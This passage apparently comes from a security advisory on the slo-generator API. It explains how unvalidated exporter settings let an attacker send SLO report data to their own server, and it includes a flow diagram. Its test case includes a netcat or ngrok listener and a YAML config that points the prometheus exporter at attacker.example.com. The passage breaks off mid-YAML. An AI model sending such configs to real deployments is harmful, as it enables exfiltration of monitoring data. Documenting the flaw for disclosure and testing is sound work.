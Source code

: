   2. **Compute and Export Logic (`slo_generator/compute.py`):**
     - The `compute` function processes the SLO configuration and retrieves exporters using `utils.get_exporters(config, spec)`.
     - The `export` function iterates through the list of exporters and calls the `export` method of each exporter class.
     - **Vulnerability Point:** The `utils.get_exporters` function retrieves exporter configurations based on the `exporters` list in the SLO configuration and the shared configuration, but it doesn't validate the exporter configurations themselves. It blindly trusts the configurations provided in the SLO config.

  3. **Exporter Classes (`slo_generator/exporters/*`):**
     - Exporter classes like `PrometheusExporter`, `CloudeventExporter`, `BigqueryExporter`, `DatadogExporter`, and `DynatraceExporter` use the configuration parameters directly to export data to the specified destinations.
     - For example, `PrometheusExporter` uses the `url` parameter to push metrics to a Prometheus Pushgateway, `CloudeventExporter` uses `service_url` to send CloudEvents, and so on.
     - **Vulnerability Point:** Exporter classes rely on the assumption that the configuration parameters are valid and trustworthy. They do not implement any checks to ensure that the destination URLs or API keys are legitimate or safe.

  4. **Visualization:**

  ```mermaid
  graph LR
      A[Attacker] --> B{slo-generator API Endpoint};
      B -- POST Malicious SLO Config --> C[API Handler (run_compute/run_export)];
      C --> D{load_config (Request Body)};
      D -- Malicious SLO Config --> E[SLO Configuration];
      E --> F{utils.get_exporters};
      F -- Malicious Exporter Config --> G[Exporter Configurations];
      G --> H{export Function};
      H -- Malicious Exporter Configuration --> I[Exporter Class (e.g., PrometheusExporter)];
      I -- Attacker Controlled URL/Service --> J[Attacker Service];
      C --> K[Compute SLO Report];
      K --> H;
      J <-- SLO Report Data -- I;
  ```

- **Security Test Case:**
  1. **Prerequisites:**
     - Deploy a publicly accessible instance of `slo-generator` API (e.g., in Cloud Run) configured to use the `prometheus` exporter and API mode enabled.
     - Set up a simple HTTP listener (e.g., using `netcat` or `ngrok`) on an attacker-controlled server to capture exfiltrated data. Let's say the attacker server URL is `http://attacker.example.com:8080`.

  2. **Craft Malicious SLO Configuration (YAML):**
     ```yaml
     apiVersion: sre.google.com/v2
     kind: ServiceLevelObjective
     metadata:
       name: malicious-slo-export
       labels:
         service_name: test
         feature_name: test
         slo_name: test
     spec:
       description: Malicious SLO to exfiltrate data
       backend: cloud_monitoring
       method: good_bad_ratio
       exporters:
       - prometheus:
           url: http://attacker.example.com:8080 # Attacker controlled URL
       service_level_indicator:
         filter_good: >
           metric.type="run.googleapis.com/request_count"